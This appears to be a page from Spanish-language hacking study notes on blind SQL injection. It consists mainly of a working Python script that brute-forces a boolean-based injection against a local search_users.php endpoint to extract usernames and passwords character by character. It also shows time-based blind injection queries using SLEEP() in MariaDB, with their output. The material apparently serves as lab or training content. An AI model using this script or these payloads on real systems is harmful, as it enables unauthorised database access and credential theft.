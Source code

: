 * Script en python para hacer fuerza bruta con una **inyección** sql basada en **condiciones**:

```python
import requests, signal, sys, time, string
from pwn import *

def def_handler():
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

# Control +C 
signal.signal(signal.SIGINT, def_handler)

main_url = "http://localhost/search_users.php"
query = "SELECT GROUP_CONCAT(username,0x3a,password) FROM users"

def makeSQLi():
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando processo de fuerza bruta")
	
	time.sleep(2)
	
	p2 = log.progress("Resultado")
	extracted_info = ""
	
	for p in range(1,150):
		for c in range(33, 126):
			sqli_url = f"{main_url}?id=-1 OR (SELECT(SELECT ASCII(SUBSTRING(({query}),{p},1)) FROM users WHERE id = 1)={c})"
			p1.status(sqli_url)
			r = requests.get(sqli_url)
			
			if r.status_code == 200:
				extracted_info += chr(c)
				p2.status(extracted_info)
				break

if __name__ == '__main__':
	makeSQLi()
```

#### Inyección SQL basada en tiempo

* Si la **consulta** tarda 5 **segundos** en **responder** es que el **valor** comparado es **correcto**:

```mysql
MariaDB [db]> USE db;
MariaDB [db]> SELECT * FROM users WHERE id = 1 AND IF(SUBSTR(database(),1,1)='d',SLEEP(5),1);
Empty set (5,001 sec)

MariaDB [db]> SELECT * FROM users WHERE id = 1 AND IF(SUBSTR(database(),1,1)='D',SLEEP(5),1);
Empty set (5,001 sec)

/* Comparar el primer caracter del nombre de la base de datos con el valor decimal correspondiente */
MariaDB [db]> SELECT * FROM users WHERE id = 1 AND IF(ASCII(SUBSTR(database(),1,1))=100,SLEEP(5),1);
Empty set (5,001 sec)

MariaDB [db]> SELECT * FROM users WHERE id = 1 AND IF(ASCII(SUBSTR(database(),1,1))=68,SLEEP(5),1);
+------+----------+-------------+
| id   | username | password    |
+------+----------+-------------+
|    1 | admin    | contraseña  |
+------+----------+-------------+
```